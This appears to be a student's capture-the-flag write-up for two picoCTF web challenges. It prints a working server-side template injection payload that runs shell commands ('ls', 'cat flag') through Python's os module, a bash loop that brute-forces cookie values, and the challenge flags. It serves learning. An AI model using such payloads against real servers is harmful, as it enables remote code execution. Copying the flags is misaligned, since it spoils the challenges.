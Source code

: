 # 1. SSTI1
To create a payload enough to give me flag using SSTI vulnerability to advantage

## Solution:

My thought process was to first test for a SSTI vulnerability as hinted by the challenge description.I first sent the payload {{ 4* 4 }}. The server responded with `16` instead of the literal string to confirm the suspiciosn.

 My goal was to read the flag file. I needed to "break out" of the template sandbox to run shell commands. I used a standard payload to access the os module:
    ```
    {{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
    ```
    
   This command worked and returned the file list: `__pycache__ app.py flag requirements.txt` which confirmed the flag file is named `flag`. I then modified the payload to cat the file and got the flag
```{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}```
    
    
This payload successfully returned the flag.

## Flag:

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}

## Concepts learnt:

  Server-Side Template Injection (SSTI) is the vulnerability that occurs when user-supplied input is rendered directly into a server-side template, allowing the user to execute code.This challenge was about escaping that sandbox and use the vulnerability to run our specific code payload.
  
  Learnt how to create a payload and what to feed to get our desired result

## Notes:

  - My initial attempts failed because I was trying to read `flag.txt` but the `ls` command revealed the file was just called `flag`.
  
## References:

 https://youtu.be/AtfNT0PFzZ4?si=3CliJwhWPKo_PHyL
 
 Gemini AI (for understanding payload)

-------------------------------------------------------------------------------------------------------------------------------------------

# 2. Cookies

To figure out the cookie value to give me the flag

## Solution:

My thought process was to investigate the "cookies" mentioned in the hint.

I inspected the page  found cookie Value `-1`. The page text said "I love different type of cookies!".This hinted to me to try different value.I decided to try a "hit and trial" approach and changed to different values till I got the flag at value=18.

## Flag:
picoCTF{3v3ry1_l0v3s_c00k135_064663be}

*(Note: I'm including the flag from your screenshot, which you found while testing value `18`)*

## Concepts learnt:

Cookies are Small pieces of data that websites store in our browser to keep track of information or "state". We can inspect the page and manipulate them to our advantage
   
## Notes:
   This manual process was slow but worked. A much faster, automated way to find the correct number would be to use a command-line script which I learnt later
:
    ```bash
    for i in $(seq 1 30); do curl -s --cookie "name=$i" [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)| grep "picoCTF{"; done
    ```

## Resources:

I had already done a similar challenge in citadel CTF before so was aware how to do it.

Gemini AI (for faster method than my hit and trial)

--------------------------------------------------------------------------------------------------------------------------------------------------------------
